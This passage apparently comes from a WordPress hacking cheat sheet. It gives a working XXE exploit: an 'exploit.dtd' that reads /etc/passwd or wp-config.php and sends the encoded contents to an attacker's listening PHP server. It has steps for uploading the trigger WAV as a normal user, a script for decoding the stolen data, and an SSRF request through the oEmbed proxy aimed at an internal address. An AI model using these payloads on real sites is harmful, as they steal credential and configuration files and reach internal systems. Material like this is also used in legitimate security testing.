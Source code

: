 Next create **"exploit.dtd"**.

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!-- <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php"> -->
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<local-ip>:9001/?p=%file;'>">
```

Then start PHP server in local machine.

```sh
php -S 0.0.0.0:9001
```

In target website, login as normal user and go to **"Media"**, click **"Add New"**.  
Upload the **"exploit.wav"**.  
After that, open the WAV file. You should see the information is revealed in your console.  

### Decode Base64

To decode the Base64, create **“decode.php”** as following.

```php
<?php echo zlib_decode(base64_decode('<Base64_Here>')); ?>
```

Execute the script to decode it.

```bash
php decode.php
```

<br />

## SSRF

### oEmbed Proxy

```bash
/wp-json/oembed/1.0/proxy?url=http://10.0.0.1/
```

